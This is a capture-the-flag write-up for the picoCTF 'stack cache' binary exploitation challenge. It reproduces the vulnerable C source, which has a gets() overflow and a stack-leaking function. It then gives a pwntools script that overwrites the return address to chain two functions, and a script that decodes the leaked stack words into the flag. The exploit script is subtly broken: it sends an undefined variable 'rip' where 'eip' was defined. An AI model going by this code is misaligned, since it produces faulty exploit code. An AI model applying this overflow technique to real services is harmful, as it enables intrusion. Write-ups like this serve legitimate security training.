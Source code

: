# stack cache [Pwn]

Link : [stack cache](https://play.picoctf.org/practice/challenge/306?category=6&originalEvent=70&page=1)

Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 16
#define FLAGSIZE 64
#define INPSIZE 10

/*
This program is compiled statically with clang-12
without any optimisations.
*/

void win() {
  char buf[FLAGSIZE];
  char filler[BUFSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
}

void UnderConstruction() {
        // this function is under construction
        char consideration[BUFSIZE];
        char *demographic, *location, *identification, *session, *votes, *dependents;
	char *p,*q, *r;
	// *p = "Enter names";
	// *q = "Name 1";
	// *r = "Name 2";
        unsigned long *age;
	printf("User information : %p %p %p %p %p %p\n",demographic, location, identification, session, votes, dependents);
	printf("Names of user: %p %p %p\n", p,q,r);
        printf("Age of user: %p\n",age);
        fflush(stdout);
}

void vuln(){
   char buf[INPSIZE];
   printf("Give me a string that gets you the flag\n");
   gets(buf);
   printf("%s\n",buf);
   return;
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  printf("Bye!");
  return 0;
}

```

The **win()** function does not display the flag but reads it from the buf array.

We need to find a way to disclose the flag contained in array buf.

```c
#define BUFSIZE 16
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  char filler[BUFSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
}
```

The **UnderConstruction()** function will do the trick.

```c
#define BUFSIZE 16
void UnderConstruction() {
        // this function is under construction
        char consideration[BUFSIZE];
        char *demographic, *location, *identification, *session, *votes, *dependents;
	char *p,*q, *r;
	// *p = "Enter names";
	// *q = "Name 1";
	// *r = "Name 2";
        unsigned long *age;
	printf("User information : %p %p %p %p %p %p\n",demographic, location, identification, session, votes, dependents);
	printf("Names of user: %p %p %p\n", p,q,r);
        printf("Age of user: %p\n",age);
        fflush(stdout);
}
```

Now just redirect the execution flow to the **win()** function and then to the **UnderConstruction()** function.

```python
from pwn import *

sh = remote('saturn.picoctf.net', 56141)

eip = p32(0x08049da0) # win()
esp = p32(0x08049e20) # UnderConstruction()

print(sh.recvuntil(b"Give me a string that gets you the flag").decode())
sh.sendline(b"A"*(10 +4) + rip + esp)
sh.interactive()
```
![stack cache](datas/stackcache.png)

I wrote a python script for that.

```python
from binascii import unhexlify

cache = ['080c9a04', '0804007d', '61333337', '31646239', '5f597230', '6d334d5f', '50755f4e', '34656c43', '7b465443', '6f636970']
flag = ""
for pin in cache:
	try:
		flag += unhexlify(pin).decode()
	except:pass

print(flag[::-1])
```

